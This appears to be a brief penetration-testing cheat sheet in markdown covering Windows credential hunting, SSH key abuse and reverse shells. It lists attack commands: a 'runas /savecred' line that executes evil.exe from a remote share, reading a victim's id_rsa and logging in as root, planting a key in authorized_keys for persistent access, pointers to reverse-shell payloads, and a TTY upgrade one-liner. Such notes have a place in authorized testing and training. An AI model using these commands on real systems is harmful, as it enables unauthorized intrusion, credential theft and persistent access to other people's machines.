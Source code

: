 - Credential Hunting:

  - Saved passwords `cmdkey /list`

    ````cmd
    runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
    ````

  - `tree /a /f c:\users`

- Readable / Owned web files (for web application)

  - SSH keys:  

    - Read: copy it from `file:///c:/users/[USERNAME]/.ssh/id_rsa`

      ```bash
      $ chmod 600 id_rsa	# More restrictive permission
      $ ssh root@10.10.10.10 -i id_rsa
      $ nano id_rsa	# open and copy on your machine
      ```

    - Write: place our public key in the user's ssh directory at `file:///c:/users/[USERNAME]/.ssh/authorized_keys`

      ```bash
      ssh-keygen -f key	#Generate a key in the output file key
      ssh-copy-id -i key.pub root@10.10.10.10	#copy key.pub in and add it to the remote folder
      ssh root@10.10.10.10 -i key	# Login
      ```

    

- Local Network Services

- `systeminfo`


- Local Processes
- Kernel Exploits
- Vulnerable Software:  `C:\Program Files` in Windows

# Shells

## Reverse Shell

- [ReverseShellGenerator](https://www.revshells.com/)
  
  - **php ** PentestMonkey
  - **Windows:** PowerShell #3 in Base64
  
- **TTY Upgrade**:

  - script method (if you don't have python)

    ```bash
    script -qc /bin/bash /dev/null
    ```
